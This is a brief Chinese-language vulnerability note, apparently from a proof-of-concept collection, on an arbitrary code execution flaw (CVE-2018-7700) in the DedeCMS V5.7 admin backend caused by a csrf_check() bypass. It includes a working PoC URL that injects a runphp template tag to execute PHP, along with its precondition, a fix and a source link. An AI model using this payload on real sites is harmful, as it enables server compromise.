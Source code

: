 # Dedecms-V5.7后台任意代码执行CVE-2018-7700.assets

## 漏洞简介

该漏洞的触发文件为 /dede/tag\_test\_action.php。起因是 csrf\_check() 函数的绕过，导致可执行任意代码。

## POC

```
http://localhost/后台地址/tag_test_action.php?url=a&token=&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```


![](Dedecms%20V5.7%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8CCVE-2018-7700/20180328005501-96c638a6-31df-1.png) 

## 利用条件

登录后台

## 解决方案

重新实现 csrf\_check() 函数

## 参考来源

先知社区：https://xz.aliyun.com/t/2224
